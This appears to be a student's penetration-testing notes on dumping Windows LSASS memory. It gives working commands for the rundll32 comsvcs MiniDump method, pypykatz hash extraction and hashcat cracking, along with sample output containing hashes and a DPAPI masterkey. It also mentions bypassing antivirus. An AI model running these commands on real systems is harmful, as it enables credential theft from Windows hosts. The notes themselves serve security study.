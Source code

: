 # Cheatsheet

```
- dump with gui task amanger dump
```
#### Dump with rundll32.exe

Finding LSASS's PID in cmd
```cmd-session
> tasklist /svc
```

Finding LSASS's PID in  PowerShell
```powershell-session
system32> Get-Process lsass

ID
672
```
Creating a dump file using PowerShell
```powershell-session
system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```
extract hashes:
```
$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```
crack NT hash
```
$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

----
# Overview on LSASS

In addition to acquiring copies of the SAM database to extract and crack password hashes, we will also benefit from targeting the [Local Security Authority Subsystem Service (LSASS)](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service).

Upon initial logon, LSASS will:
- Cache credentials locally in memory
- Create [access tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
- Enforce security policies
- Write to Windows' [security log](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)
Let's cover some of the techniques and tools we can use to dump LSASS memory and extract credentials from a target running Windows.

## Securable Objects
In Windows, **securable objects** are resources that the operating system protects through **Access Control Lists (ACLs)** and other security mechanisms. These objects can have permissions assigned to users or groups, allowing or denying access.

## LSASS Process Memory dump
Similar to the process of attacking the SAM database, it would be wise for us first to create a copy of the contents of LSASS process memory via the generation of a memory dump. Creating a dump file lets us extract credentials offline using our attack host. K

### Through task manager
1. Open `Task Manager`
2. Select the `Processes` tab
3. Find and right click the `Local Security Authority Process`
4. Select `Create dump file`
5. ![[taskmanagerdump.webp]]

A file called `lsass.DMP` is created and saved in `%temp%`. This is the file we will transfer to our attack host. 
![[lsassexe_diagram.webp]]
# Through rundll32
This way is faster than the Task Manager method and more flexible because we may gain a shell session on a Windows host with only access to the command line. It is important to note that modern anti-virus tools recognize this method as malicious activity.

Before issuing the command to create the dump file, we must determine what process ID (`PID`) is assigned to `lsass.exe`. This can be done from cmd or PowerShell:

Finding LSASS's PID in cmd

```cmd-session
> tasklist /svc
```

Finding LSASS's PID in  powershell
```powershell-session
system32> Get-Process lsass

ID
672
```
Creating a dump file using PowerShell
```powershell-session
system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

that most modern AV tools recognize this as malicious activity and prevent the command from executing. In these cases, we will need to consider ways to bypass or disable the AV tool we are facing

With this command, we are running `rundll32.exe` to call an exported function of `comsvcs.dll` which also calls the MiniDumpWriteDump (`MiniDump`) function to dump the LSASS process memory to a specified directory (`C:\lsass.dmp`).
```
extract hashes
$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```
# LSA Inners (dumped content)
#### MSV
```shell-session
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
```

[MSV](https://docs.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package) is an authentication package in Windows that LSA calls on to validate logon attempts against the SAM database. 
#### WDIGEST

```shell-session
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
```

`WDIGEST` is an older authentication protocol enabled by default in `Windows XP` - `Windows 8` and `Windows Server 2003` - `Windows Server 2012`. LSASS caches credentials used by WDIGEST in clear-text.
#### Kerberos

```shell-session
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
```

[Kerberos](https://web.mit.edu/kerberos/#what_is) is a network authentication protocol used by Active Directory in Windows Domain environments.
Domain user accounts are granted tickets upon authentication with Active Directory. This ticket is used to allow the user to access shared resources on the network that they have been granted access to without needing to type their credentials each time. 
LSASS caches `passwords`, `ekeys`, `tickets`, and `pins` associated with Kerberos
#### DPAPI
```shell-session
== DPAPI [14ab89]==
		luid 1354633
		key_guid 3e1d1091-b792-45df-ab8e-c66af044d69b
		masterkey e8bc2faf77e7bd1891c0e49f0dea9d447a491107ef5b25b9929071f68db5b0d55bf05df5a474d9bd94d98be4b4ddb690e6d8307a86be6f81be0d554f195fba92
		sha1_masterkey 52e758b6120389898f7fae553ac8172b43221605
```
Mimikatz and Pypykatz can extract the DPAPI `masterkey` for logged-on users whose data is present in LSASS process memory. These masterkeys can then be used to decrypt the secrets associated with each of the applications using DPAPI and result in the capturing of credentials for various accounts. covered in privEsc
# crack nt hash
```shell-session
$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

